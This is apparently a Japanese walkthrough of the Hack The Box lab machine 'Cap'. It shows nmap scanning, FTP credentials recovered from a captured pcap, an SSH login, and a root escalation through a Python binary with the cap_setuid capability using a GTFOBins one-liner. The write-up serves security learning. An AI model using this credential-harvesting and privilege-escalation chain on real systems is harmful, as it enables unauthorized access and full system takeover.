




# Cap

Linux · Easy

## 初期偵察

### nmap
```
┌──(kali㉿kali)-[~/htb/Machines/Cap]
└─$ nmap -sC -sV 10.10.10.245
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-25 15:04 JST
Nmap scan report for 10.10.10.245
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Tue, 25 Feb 2025 06:05:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 25 Feb 2025 06:05:08 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 25 Feb 2025 06:05:09 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

オープンポート

- 21/tcp (FTP - vsftpd 3.0.3)
- 22/tcp (SSH - OpenSSH 8.2p1)
- 80/tcp (HTTP - gunicorn)
- gunicorn というPython WSGIサーバーが動作している。


### FTP
```
┌──(kali㉿kali)-[~/htb/Machines/Cap]
└─$ ftp anonymous@10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
530 Login incorrect.
```
ftp anonymousログインは特に出来ず、


### searchsploit
```
┌──(kali㉿kali)-[~/htb/Machines/Cap]
└─$ searchsploit vsftpd    
------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption                                                                 | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                                                                 | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                                                                 | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                                                               | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                                                                                      | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                         | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                                                                                        | multiple/remote/49719.py
------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

今回のターゲット：ver3.0.3はDosなので意味なし

アクセスしてみる






pcapが手に入る

HTTP Streamは特に何もなさそう



### PCAP
FTPを追跡すると、user/passがあった。FTPは暗号化されていないため通信内容が分かってしまう
```
220 (vsFTPd 3.0.3)

USER nathan

331 Please specify the password.

PASS Buck3tH4TF0RM3!

230 Login successful.

SYST

215 UNIX Type: L8

PORT 192,168,196,1,212,140

200 PORT command successful. Consider using PASV.

LIST

150 Here comes the directory listing.
226 Directory send OK.

PORT 192,168,196,1,212,141

200 PORT command successful. Consider using PASV.

LIST -al

150 Here comes the directory listing.
226 Directory send OK.

TYPE I

200 Switching to Binary mode.

PORT 192,168,196,1,212,143

200 PORT command successful. Consider using PASV.

RETR notes.txt

550 Failed to open file.

QUIT

221 Goodbye.
```

- USER: `nathan`
- PASS: `Buck3tH4TF0RM3!`

### FTPログイン
userとpassが分かったので再度FTPログインを試みる
```
┌──(kali㉿kali)-[~/htb/Machines/Cap]
└─$ ftp nathan@10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||44820|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Feb 25 05:08 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||14831|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |********************************************************************************************************************|    33      519.78 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.04 KiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||41074|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27  2021 .
drwxr-xr-x    3 0        0            4096 May 23  2021 ..
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23  2021 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Feb 25 05:08 user.txt
226 Directory send OK.
ftp> 
```

### user.txt
```
┌──(kali㉿kali)-[~/htb/Machines/Cap]
└─$ cat user.txt
a82*****************************
```
user.txt
`a82*****************************`


## 初期侵入
### SSHログイン
```
┌──(kali㉿kali)-[~/htb/Machines/Cap]
└─$ ssh nathan@10.10.10.245           
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
Load key "/home/kali/.ssh/id_rsa": error in libcrypto
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Feb 25 06:28:02 UTC 2025

  System load:           0.0
  Usage of /:            36.6% of 8.73GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             220
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb0:2c51

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Feb 25 05:14:42 2025 from 10.10.16.65
nathan@cap:~$ ls
user.txt
```

ログイン成功！


## 権限昇格

権限を確認する
```
nathan@cap:~$ find / -type f -perm -4000 -ls 2>/dev/null
      789     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount
      834     44 -rwsr-xr-x   1 root     root        44784 May 28  2020 /usr/bin/newgrp
      888     32 -rwsr-xr-x   1 root     root        31032 Aug 16  2019 /usr/bin/pkexec
      788     56 -rwsr-xr-x   1 root     root        55528 Jul 21  2020 /usr/bin/mount
      686     88 -rwsr-xr-x   1 root     root        88464 May 28  2020 /usr/bin/gpasswd
      867     68 -rwsr-xr-x   1 root     root        68208 May 28  2020 /usr/bin/passwd
      557     84 -rwsr-xr-x   1 root     root        85064 May 28  2020 /usr/bin/chfn
     2865    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo
      489     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
      563     52 -rwsr-xr-x   1 root     root        53040 May 28  2020 /usr/bin/chsh
     3422     68 -rwsr-xr-x   1 root     root        67816 Jul 21  2020 /usr/bin/su
      668     40 -rwsr-xr-x   1 root     root        39144 Mar  7  2020 /usr/bin/fusermount
     1588     24 -rwsr-xr-x   1 root     root        22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     2279    128 -rwsr-xr-x   1 root     root       130152 Feb  2  2021 /usr/lib/snapd/snap-confine
     1435    464 -rwsr-xr-x   1 root     root       473576 Mar  9  2021 /usr/lib/openssh/ssh-keysign
     1366     52 -rwsr-xr--   1 root     messagebus    51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1373     16 -rwsr-xr-x   1 root     root          14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
      128    109 -rwsr-xr-x   1 root     root         111080 Apr 24  2021 /snap/snapd/11841/usr/lib/snapd/snap-confine
      128    109 -rwsr-xr-x   1 root     root         111080 Jun 15  2021 /snap/snapd/12398/usr/lib/snapd/snap-confine
       56     43 -rwsr-xr-x   1 root     root          43088 Sep 16  2020 /snap/core18/2066/bin/mount
       65     63 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /snap/core18/2066/bin/ping
       81     44 -rwsr-xr-x   1 root     root          44664 Mar 22  2019 /snap/core18/2066/bin/su
       99     27 -rwsr-xr-x   1 root     root          26696 Sep 16  2020 /snap/core18/2066/bin/umount
     1708     75 -rwsr-xr-x   1 root     root          76496 Mar 22  2019 /snap/core18/2066/usr/bin/chfn
     1710     44 -rwsr-xr-x   1 root     root          44528 Mar 22  2019 /snap/core18/2066/usr/bin/chsh
     1763     75 -rwsr-xr-x   1 root     root          75824 Mar 22  2019 /snap/core18/2066/usr/bin/gpasswd
     1827     40 -rwsr-xr-x   1 root     root          40344 Mar 22  2019 /snap/core18/2066/usr/bin/newgrp
     1840     59 -rwsr-xr-x   1 root     root          59640 Mar 22  2019 /snap/core18/2066/usr/bin/passwd
     1931    146 -rwsr-xr-x   1 root     root         149080 Jan 19  2021 /snap/core18/2066/usr/bin/sudo
     2018     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     2328    427 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /snap/core18/2066/usr/lib/openssh/ssh-keysign
       56     43 -rwsr-xr-x   1 root     root               43088 Sep 16  2020 /snap/core18/2074/bin/mount
       65     63 -rwsr-xr-x   1 root     root               64424 Jun 28  2019 /snap/core18/2074/bin/ping
       81     44 -rwsr-xr-x   1 root     root               44664 Mar 22  2019 /snap/core18/2074/bin/su
       99     27 -rwsr-xr-x   1 root     root               26696 Sep 16  2020 /snap/core18/2074/bin/umount
     1710     75 -rwsr-xr-x   1 root     root               76496 Mar 22  2019 /snap/core18/2074/usr/bin/chfn
     1712     44 -rwsr-xr-x   1 root     root               44528 Mar 22  2019 /snap/core18/2074/usr/bin/chsh
     1765     75 -rwsr-xr-x   1 root     root               75824 Mar 22  2019 /snap/core18/2074/usr/bin/gpasswd
     1829     40 -rwsr-xr-x   1 root     root               40344 Mar 22  2019 /snap/core18/2074/usr/bin/newgrp
     1842     59 -rwsr-xr-x   1 root     root               59640 Mar 22  2019 /snap/core18/2074/usr/bin/passwd
     1933    146 -rwsr-xr-x   1 root     root              149080 Jan 19  2021 /snap/core18/2074/usr/bin/sudo
     2020     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     2330    427 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /snap/core18/2074/usr/lib/openssh/ssh-keysign
nathan@cap:~$
```

```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

### GTFOBins

https://gtfobins.github.io/#

Capabilitiesで調べる




```
cp $(which python) .
sudo setcap cap_setuid+ep python

./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
使用できそうなコマンドがあるので試す

```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# ls
user.txt
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```
権限昇格成功

### root.txt
```
# cd ../
# ls
nathan
# cd ../
# ls
bin  boot  cdrom  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var
# cd root
# ls 
root.txt  snap
# cat root.txt
38d*****************************
```

root.txt
`38d*****************************`


### まとめ

今回はFTPが平文通信だったので内容からuser/passが手に入った
GTFOBinsから権限でできるコマンドを調査